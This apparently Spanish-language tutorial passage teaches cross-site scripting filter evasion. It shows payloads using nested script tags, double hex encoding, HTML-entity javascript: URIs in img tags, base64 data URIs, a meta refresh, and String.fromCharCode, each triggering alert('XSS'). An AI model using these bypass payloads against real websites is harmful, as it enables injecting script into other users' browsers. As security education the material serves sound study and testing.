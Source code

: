 Podemos pasar este filtro de la siguiente manera:  

```js
<scr<script>ipt>alert("xss");</scr</script>ipt>
```

¿Por qué esto funciona y cómo funciona? Es simple, si el filtro elimina las etiquetas `<script></script>` entonces terminara de poner <src uniéndolo con ipt> y así formando `<script>` y terminara igual como `<script>alert("xss");</script>`

También podemos cifrar el código en HEX, ASCII, usar el esquema de URI de "datos", etc. 

> HEXADEMINAL es simple y cualquiera lo puede hacer "<" es 3c y "%" es como una doble codificación en hexadecimal es "%25" y lo podemos usar de esta forma “% 253C” como una "Doble codificación" pueden guiarse con alguna [web](https://www.uv.es/jac/guia/hexawin.htm) para hacerlo con "/" y ">" o con este "Diccionario" hexadecimal  
  
### Uso de hexadecimal
---
```js
%253Cscript%253Ealert('XSS')%253C%252Fscript%253E
```

Podemos usar codificaciones UTF-8 (8-bit Unicode Transformation Format) algo como; &#X41 que es "a", y lo ponemos al lado de "J" J(Codificación)vascript:alert('xss' ahora solo debemos ponerlo en una etiqueta img:

```html
<IMG SRC=j&#X41vascript:alert('XSS')>
```

También podemos cifrarlo en BASE 64 para más probabilidad

```js
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4NCg0K
```

E incluso podremos poner en el meta: 

```js
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4NCg0K>
```

Para los que no entiendan mucho lo de "El esquema de URL de "datos" puede leer esta web: [recomendación](https://tools.ietf.org/html/rfc2397), explican muy bien lo que es y cómo usarse, pero para los vagos que no quieran entrar:

-Algunas aplicaciones que usan URL también tienen la necesidad de incrustar (pequeños) datos de tipo de medios directamente en línea. Este documento define un nuevo esquema de URL que funcionaría como 'direccionamiento inmediato'. Las URL son de la forma:

```js
data:[<mediatype>][;base64],<data>
```

También hay otra forma la cual es usando String.fromCharCode (SIntaxis; String.fromCharCode(1,2,3) hace una secuencia de números con valores Unicode devolviendo una cadena.

```js
<script>alert(String.fromCharCode(88,83,83))</script<
```
